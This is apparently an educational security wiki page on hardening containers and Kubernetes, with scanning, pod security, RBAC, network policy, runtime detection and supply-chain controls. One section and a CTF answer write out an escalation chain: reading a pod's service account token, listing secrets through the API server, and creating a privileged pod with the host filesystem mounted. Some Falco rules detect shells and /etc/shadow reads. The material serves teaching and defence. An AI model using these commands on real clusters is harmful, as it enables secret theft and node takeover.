



# Container & Kubernetes Security

Containers and Kubernetes have become the default deployment model for modern applications. With that ubiquity comes a massive attack surface: misconfigured clusters, vulnerable images, overly permissive RBAC, exposed API servers, and container escapes. A compromised pod in a misconfigured Kubernetes cluster can lead to full cluster takeover in minutes.

This page covers the full container security lifecycle: building secure images, scanning for vulnerabilities, securing the Kubernetes control plane, enforcing network segmentation, detecting runtime threats, and securing the software supply chain.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Linux Security](/cybersecurity/linux-security) | [Cloud Pentesting](/cybersecurity/cloud-pentesting) | [Red Team Operations](/cybersecurity/red-team-ops)

::: danger Authorization Required
Kubernetes security testing can disrupt production workloads, expose secrets, and cause service outages. Only test clusters you own or have explicit authorization to assess. Use dedicated lab clusters for practice.
:::

---

## Container Threat Landscape



---

## Image Security & Scanning

### Image Scanning Tools

| Tool | Type | Databases | CI/CD Integration | Cost |
|------|------|-----------|-------------------|------|
| **Trivy** | Open source | NVD, GitHub Advisories, Red Hat | GitHub Actions, GitLab CI, Jenkins | Free |
| **Grype** | Open source | NVD, GitHub Advisories | CLI, CI/CD pipelines | Free |
| **Snyk Container** | Commercial | Snyk vulnerability DB | GitHub, GitLab, CI/CD | Free tier + paid |
| **Docker Scout** | Commercial | Docker Advisory DB | Docker Desktop, CLI | Free tier + paid |
| **Clair** | Open source | NVD, distro advisories | Harbor, CI/CD | Free |

### Trivy Scanning

```bash
# Scan a container image
trivy image nginx:latest

# Scan with severity filter
trivy image --severity HIGH,CRITICAL alpine:3.18

# Scan local Dockerfile
trivy config Dockerfile

# Scan filesystem (detect secrets, misconfigurations)
trivy fs --security-checks vuln,secret,config ./

# Scan Kubernetes cluster
trivy k8s --report summary cluster

# Scan in CI/CD — fail build on HIGH/CRITICAL
trivy image --exit-code 1 --severity HIGH,CRITICAL myapp:latest

# Output in SARIF format for GitHub Security tab
trivy image --format sarif --output trivy-results.sarif myapp:latest

# Scan for secrets in image layers
trivy image --security-checks secret myapp:latest
```

### Grype Scanning

```bash
# Scan an image
grype nginx:latest

# Scan with severity threshold
grype myapp:latest --fail-on high

# Scan a directory
grype dir:./app

# Scan SBOM (Software Bill of Materials)
syft myapp:latest -o spdx-json > sbom.json
grype sbom:sbom.json

# Output in table format with fix versions
grype myapp:latest -o table
```

### Dockerfile Best Practices

```dockerfile
# BAD — common mistakes
FROM ubuntu:latest            # Unpinned tag, changes over time
RUN apt-get update && apt-get install -y curl wget vim
COPY . /app                   # Copies secrets, .git, everything
RUN echo "API_KEY=sk-12345"   # Secret in image layer
USER root                     # Running as root
EXPOSE 22                     # SSH in container is wrong

# GOOD — secure Dockerfile
FROM python:3.12-slim@sha256:abc123...  # Pinned digest
LABEL maintainer="security-team"

# Install only necessary packages, clean cache
RUN apt-get update && \
    apt-get install -y --no-install-recommends curl && \
    rm -rf /var/lib/apt/lists/*

# Create non-root user
RUN groupadd -r appuser && useradd -r -g appuser appuser

# Copy only necessary files
COPY --chown=appuser:appuser requirements.txt /app/
WORKDIR /app
RUN pip install --no-cache-dir -r requirements.txt

COPY --chown=appuser:appuser src/ /app/src/

# Switch to non-root user
USER appuser

# Health check
HEALTHCHECK --interval=30s --timeout=3s \
    CMD curl -f http://localhost:8000/health || exit 1

EXPOSE 8000
ENTRYPOINT ["python", "-m", "uvicorn", "src.main:app", "--host", "0.0.0.0"]
```

| Rule | Why |
|------|-----|
| Pin base image by digest | Prevents supply chain attacks via tag mutation |
| Use minimal base images (distroless, alpine, slim) | Fewer packages = fewer vulnerabilities |
| Run as non-root | Limits impact of container compromise |
| Multi-stage builds | Final image does not contain build tools |
| No secrets in layers | Secrets in `RUN`, `COPY`, or `ENV` persist in image history |
| Copy only necessary files | Use `.dockerignore` to exclude `.git`, `.env`, tests |

---

## Kubernetes Security Architecture



---

## Pod Security Standards

Kubernetes Pod Security Standards (PSS) define three levels of security for pods.

| Level | Description | Restrictions |
|-------|-------------|-------------|
| **Privileged** | Unrestricted (legacy) | None — full access |
| **Baseline** | Prevent known privilege escalations | No privileged containers, no hostNetwork, no hostPID |
| **Restricted** | Hardened (best practice) | Non-root, read-only root filesystem, drop all capabilities, seccomp |

### Pod Security Admission Configuration

```yaml
# Namespace-level enforcement
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: latest
    pod-security.kubernetes.io/warn: restricted
    pod-security.kubernetes.io/audit: restricted
```

### Secure Pod Specification

```yaml
# Hardened pod spec — follows Restricted PSS
apiVersion: v1
kind: Pod
metadata:
  name: secure-app
  namespace: production
spec:
  automountServiceAccountToken: false  # Do not mount SA token
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    runAsGroup: 1000
    fsGroup: 1000
    seccompProfile:
      type: RuntimeDefault
  containers:
    - name: app
      image: myapp:1.0.0@sha256:abc123...  # Pinned digest
      securityContext:
        allowPrivilegeEscalation: false
        readOnlyRootFilesystem: true
        capabilities:
          drop:
            - ALL
        runAsNonRoot: true
      resources:
        limits:
          cpu: "500m"
          memory: "256Mi"
        requests:
          cpu: "100m"
          memory: "128Mi"
      volumeMounts:
        - name: tmp
          mountPath: /tmp
  volumes:
    - name: tmp
      emptyDir: {}  # Writable temp directory
```

::: warning Common Misconfigurations
These are the most frequently exploited Kubernetes misconfigurations:
- `privileged: true` — Container has full host access, game over
- `hostPID: true` or `hostNetwork: true` — Container shares host namespaces
- `automountServiceAccountToken: true` (default) — Token mounted even when not needed
- No `securityContext` specified — Container runs as root by default
- No `readOnlyRootFilesystem` — Attacker can write anywhere in container
- No resource limits — Container can consume all node resources (DoS)
:::

---

## Network Policies

By default, all pods can communicate with all other pods in a Kubernetes cluster. Network policies implement microsegmentation.

```yaml
# Default deny all ingress and egress in a namespace
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: production
spec:
  podSelector: {}  # Applies to all pods
  policyTypes:
    - Ingress
    - Egress

---
# Allow specific communication: frontend -> backend on port 8080
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-frontend-to-backend
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: backend
  policyTypes:
    - Ingress
  ingress:
    - from:
        - podSelector:
            matchLabels:
              app: frontend
      ports:
        - protocol: TCP
          port: 8080

---
# Allow backend -> database on port 5432
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-backend-to-db
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: database
  policyTypes:
    - Ingress
  ingress:
    - from:
        - podSelector:
            matchLabels:
              app: backend
      ports:
        - protocol: TCP
          port: 5432
```



---

## Service Account Token Abuse

Every pod gets a service account token mounted by default. If RBAC is misconfigured, this token can be used to escalate privileges.

```bash
# Inside a compromised pod — check for service account token
ls /var/run/secrets/kubernetes.io/serviceaccount/
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Use token to query Kubernetes API
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://kubernetes.default.svc

# Check permissions — what can this token do?
curl -sk -H "Authorization: Bearer $TOKEN" \
    $APISERVER/apis/authorization.k8s.io/v1/selfsubjectaccessreviews \
    -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectAccessReview","spec":{"resourceAttributes":{"verb":"list","resource":"secrets","namespace":"default"}}}'

# List secrets (if permitted)
curl -sk -H "Authorization: Bearer $TOKEN" \
    $APISERVER/api/v1/namespaces/default/secrets

# List pods
curl -sk -H "Authorization: Bearer $TOKEN" \
    $APISERVER/api/v1/namespaces/default/pods

# Create a privileged pod (if permitted — cluster takeover)
curl -sk -H "Authorization: Bearer $TOKEN" \
    -X POST $APISERVER/api/v1/namespaces/default/pods \
    -H "Content-Type: application/json" \
    -d '{"apiVersion":"v1","kind":"Pod","metadata":{"name":"attacker-pod"},"spec":{"containers":[{"name":"pwn","image":"ubuntu","command":["/bin/bash","-c","sleep 99999"],"securityContext":{"privileged":true},"volumeMounts":[{"name":"host","mountPath":"/host"}]}],"volumes":[{"name":"host","hostPath":{"path":"/"}}]}}'
```

::: danger Default Service Accounts
The `default` service account in every namespace often has more permissions than necessary. Always:
1. Set `automountServiceAccountToken: false` on pods that do not need Kubernetes API access
2. Create dedicated service accounts with minimal RBAC
3. Never bind `cluster-admin` to a service account unless absolutely necessary
:::

---

## Kubernetes RBAC Audit

```bash
# List all ClusterRoleBindings — who has cluster-wide permissions
kubectl get clusterrolebindings -o json | jq '.items[] | {name: .metadata.name, role: .roleRef.name, subjects: .subjects}'

# Find service accounts with cluster-admin
kubectl get clusterrolebindings -o json | jq '.items[] | select(.roleRef.name == "cluster-admin") | .subjects'

# List all RoleBindings in a namespace
kubectl get rolebindings -n production -o json | jq '.items[] | {name: .metadata.name, role: .roleRef.name, subjects: .subjects}'

# Check what a specific service account can do
kubectl auth can-i --list --as=system:serviceaccount:default:my-sa

# Find overly permissive RBAC rules
# Look for: verbs: ["*"], resources: ["*"], apiGroups: ["*"]
kubectl get clusterroles -o json | jq '.items[] | select(.rules[]?.verbs[]? == "*") | .metadata.name'

# Audit tool — rakkess (kubectl plugin)
kubectl krew install access-matrix
kubectl access-matrix --as=system:serviceaccount:default:my-sa
```

### RBAC Best Practices

| Principle | Implementation |
|-----------|---------------|
| **Least privilege** | Grant only the specific verbs, resources, and namespaces needed |
| **No wildcard permissions** | Never use `*` for verbs or resources in production |
| **Namespace scoping** | Use `Role` + `RoleBinding` instead of `ClusterRole` when possible |
| **Regular audits** | Monthly RBAC review, remove unused bindings |
| **No `cluster-admin` for workloads** | Service accounts should never have cluster-admin |
| **Separate admin credentials** | Different kubeconfigs for different privilege levels |

---

## Runtime Security

### Falco

Falco is the de facto standard for Kubernetes runtime security. It monitors system calls and detects anomalous behavior at runtime.

```yaml
# Falco rule — detect shell spawned in container
- rule: Terminal shell in container
  desc: A shell was started in a container
  condition: >
    spawned_process and container and
    proc.name in (bash, sh, zsh, dash, ksh) and
    not container.image.repository in (allowed_shell_images)
  output: >
    Shell spawned in container
    (user=%user.name container=%container.name
     image=%container.image.repository
     shell=%proc.name parent=%proc.pname)
  priority: WARNING
  tags: [container, shell, mitre_execution]

# Falco rule — detect sensitive file access
- rule: Read sensitive file in container
  desc: Attempt to read sensitive files like /etc/shadow
  condition: >
    open_read and container and
    fd.name in (/etc/shadow, /etc/passwd, /etc/sudoers)
  output: >
    Sensitive file read in container
    (user=%user.name file=%fd.name container=%container.name)
  priority: CRITICAL

# Falco rule — detect crypto mining
- rule: Detect crypto mining
  desc: Detect connections to known mining pools
  condition: >
    outbound and container and
    fd.sip.name in (mining_pool_domains)
  output: >
    Crypto mining connection detected
    (container=%container.name dest=%fd.sip.name)
  priority: CRITICAL
```

```bash
# Install Falco with Helm
helm repo add falcosecurity https://falcosecurity.github.io/charts
helm install falco falcosecurity/falco \
    --namespace falco --create-namespace \
    --set driver.kind=ebpf \
    --set falcosidekick.enabled=true \
    --set falcosidekick.config.slack.webhookurl="https://hooks.slack.com/..."

# Check Falco alerts
kubectl logs -n falco -l app.kubernetes.io/name=falco -f
```

### Tetragon (eBPF-based)

Tetragon provides deeper kernel-level visibility and enforcement using eBPF.

```yaml
# Tetragon TracingPolicy — monitor file access
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: monitor-sensitive-files
spec:
  kprobes:
    - call: "fd_install"
      syscall: false
      args:
        - index: 0
          type: int
        - index: 1
          type: "file"
      selectors:
        - matchArgs:
            - index: 1
              operator: "Prefix"
              values:
                - "/etc/shadow"
                - "/etc/passwd"
                - "/var/run/secrets"
```

---

## Supply Chain Security

### Image Signing and Verification

```bash
# Sign images with Cosign (Sigstore project)
# Generate key pair
cosign generate-key-pair

# Sign an image
cosign sign --key cosign.key myregistry.io/myapp:1.0.0

# Verify image signature
cosign verify --key cosign.pub myregistry.io/myapp:1.0.0

# Keyless signing with OIDC (no private key management)
cosign sign myregistry.io/myapp:1.0.0  # Uses GitHub/Google OIDC
cosign verify --certificate-identity=user@example.com \
    --certificate-oidc-issuer=https://accounts.google.com \
    myregistry.io/myapp:1.0.0
```

### Admission Control

```yaml
# Kyverno policy — require image signatures
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: verify-image-signature
spec:
  validationFailureAction: Enforce
  rules:
    - name: check-image-signature
      match:
        resources:
          kinds:
            - Pod
      verifyImages:
        - imageReferences:
            - "myregistry.io/*"
          attestors:
            - entries:
                - keys:
                    publicKeys: |-
                      -----BEGIN PUBLIC KEY-----
                      MFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAE...
                      -----END PUBLIC KEY-----

---
# Kyverno policy — block privileged containers
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-privileged
spec:
  validationFailureAction: Enforce
  rules:
    - name: no-privileged
      match:
        resources:
          kinds:
            - Pod
      validate:
        message: "Privileged containers are not allowed"
        pattern:
          spec:
            containers:
              - securityContext:
                  privileged: "!true"

---
# Kyverno policy — require resource limits
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-resource-limits
spec:
  validationFailureAction: Enforce
  rules:
    - name: check-limits
      match:
        resources:
          kinds:
            - Pod
      validate:
        message: "CPU and memory limits are required"
        pattern:
          spec:
            containers:
              - resources:
                  limits:
                    memory: "?*"
                    cpu: "?*"
```

---

## Container Security Checklist

| # | Category | Check | Priority |
|---|----------|-------|----------|
| 1 | **Image** | Base image pinned by digest | High |
| 2 | **Image** | No HIGH/CRITICAL CVEs | Critical |
| 3 | **Image** | No secrets in image layers | Critical |
| 4 | **Image** | Minimal base (distroless/alpine) | High |
| 5 | **Pod** | Non-root user | Critical |
| 6 | **Pod** | Read-only root filesystem | High |
| 7 | **Pod** | All capabilities dropped | High |
| 8 | **Pod** | No privilege escalation | Critical |
| 9 | **Pod** | Resource limits set | High |
| 10 | **Pod** | SA token not mounted unless needed | High |
| 11 | **Network** | Default deny network policy | Critical |
| 12 | **Network** | Explicit allow rules only | High |
| 13 | **RBAC** | No wildcard permissions | Critical |
| 14 | **RBAC** | No cluster-admin for workloads | Critical |
| 15 | **Runtime** | Falco or Tetragon deployed | High |
| 16 | **Supply Chain** | Images signed and verified | High |
| 17 | **Secrets** | External secret management (Vault) | High |

---

## Further Reading

- [Linux Security & Hardening](/cybersecurity/linux-security) — Container hosts are Linux systems
- [Cloud Pentesting](/cybersecurity/cloud-pentesting) — Kubernetes in cloud environments
- [Red Team Operations](/cybersecurity/red-team-ops) — Container escape in red team engagements
- [Blue Team & SOC](/cybersecurity/blue-team-soc) — Monitoring container workloads
- [Security Certifications](/cybersecurity/security-certifications) — CKS (Certified Kubernetes Security Specialist)

---

::: tip Key Takeaway
- A privileged container is equivalent to root on the host — `privileged: true` should never appear in production pod specs
- Default Kubernetes configurations are insecure: no network policies (all pods can talk to all pods), default service account tokens mounted everywhere, and no pod security enforcement
- Supply chain security starts with pinning images by digest, scanning with Trivy, signing with Cosign, and verifying with admission controllers
:::

::: details Hands-On Lab
**Lab: Kubernetes Security Assessment**

1. Deploy a local Kubernetes cluster with minikube or kind
2. Deploy a deliberately misconfigured application: privileged container, no network policies, default service account
3. From inside the pod, enumerate Kubernetes API access using the mounted service account token
4. Attempt a container escape: mount the host filesystem from the privileged container
5. Apply Pod Security Standards (Restricted level) to the namespace and verify the privileged pod is rejected
6. Create network policies: default deny all, then explicitly allow only frontend-to-backend and backend-to-database
7. Run kube-bench to check CIS benchmark compliance
8. Install Falco and trigger a shell-in-container alert
:::

::: details CTF Challenge
**Challenge: Escape the Pod**

You have a shell inside a Kubernetes pod. The pod has `automountServiceAccountToken: true` and the service account has `list secrets` and `create pods` permissions. Escalate to cluster admin.

**Hints:**
1. Read the service account token from `/var/run/secrets/kubernetes.io/serviceaccount/token`
2. List secrets across all namespaces — look for admin kubeconfig or service account tokens
3. Create a new pod with `privileged: true` and a hostPath mount

::: details Answer
Read the token: `TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)`. List secrets: `curl -sk -H "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/secrets` to find a `cluster-admin-token` secret. Use the cluster-admin token to create a privileged pod with `hostPath: /` mounted. Enter the privileged pod and `chroot /host` for full node access. Flag: `CTF{sa_token_to_cluster_admin}`.
:::
:::

::: warning Common Misconceptions
- **"Containers provide security isolation"** — Containers share the host kernel. A kernel exploit or privileged container escapes the container boundary entirely. Use gVisor or Kata Containers for true isolation.
- **"Scanning images in CI/CD is sufficient"** — New CVEs are discovered daily. Images that passed scanning during build may be vulnerable by deployment time. Continuous scanning in the registry and runtime is needed.
- **"Kubernetes namespaces are security boundaries"** — Namespaces are logical groupings, not security boundaries. Without network policies and RBAC, pods in different namespaces communicate freely.
- **"Read-only root filesystem breaks applications"** — Most applications only need to write to `/tmp` or specific data directories. Mount writable emptyDir volumes for those paths while keeping the root filesystem read-only.
:::

::: details Quiz
**1. What Kubernetes setting prevents a container from running as root?**

a) `privileged: false`
b) `runAsNonRoot: true`
c) `readOnlyRootFilesystem: true`
d) `allowPrivilegeEscalation: false`

::: details Answer
b) `runAsNonRoot: true` in the pod's securityContext ensures the container process does not run as UID 0. The kubelet will reject pods that attempt to run as root.
:::

**2. What does `automountServiceAccountToken: false` prevent?**

a) The pod from starting
b) Automatic mounting of the Kubernetes API service account token inside the pod
c) Network access
d) Volume mounts

::: details Answer
b) By default, Kubernetes mounts a service account token in every pod. Setting this to false prevents the token from being mounted, reducing the risk of API abuse from a compromised pod.
:::

**3. What is the purpose of a default deny network policy?**

a) Block all internet access
b) Deny all ingress and egress traffic to pods in the namespace unless explicitly allowed
c) Prevent pod creation
d) Disable DNS

::: details Answer
b) A default deny policy blocks all traffic to and from pods. You then create specific allow rules for required communication paths (e.g., frontend to backend on port 8080).
:::

**4. What tool is the de facto standard for Kubernetes runtime security?**

a) Trivy
b) Falco
c) kube-bench
d) Cosign

::: details Answer
b) Falco monitors system calls at runtime and detects anomalous behavior like shells spawned in containers, sensitive file access, and connections to mining pools.
:::

**5. Why should container images be pinned by digest instead of tag?**

a) Digests are shorter
b) Tags can be overwritten with a different image (supply chain attack), but digests are immutable content hashes
c) Digests are faster to pull
d) Tags are deprecated

::: details Answer
b) Tags like `latest` or `1.0` can be replaced with a completely different image. Digests (SHA256 hashes) are immutable — they always refer to the exact same image content.
:::
:::

> **One-Liner Summary:** Kubernetes defaults are optimized for convenience, not security — every production cluster needs explicit hardening or it is one compromised pod away from total takeover.
